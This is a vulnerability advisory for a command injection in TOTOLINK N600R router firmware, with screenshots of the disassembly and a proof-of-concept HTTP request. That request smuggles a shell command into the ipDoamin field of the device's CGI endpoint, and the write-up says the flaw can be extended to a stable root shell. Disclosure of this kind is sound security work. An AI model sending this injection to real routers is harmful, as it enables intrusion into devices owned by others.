 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406183015981](img/image-20220406183015981.png)

The content obtained by the program through the ipdoamin parameter is passed to V6, and then the matched content is passed to V8 through the sprintf function, and then V8 is brought into the cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setDiagnosisCfg",
"ipDoamin":"test.com$(ls>/tmp/5.txt;)"}
```

The reproduction results are as follows:

![image-20220406183056377](img/image-20220406183056377.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
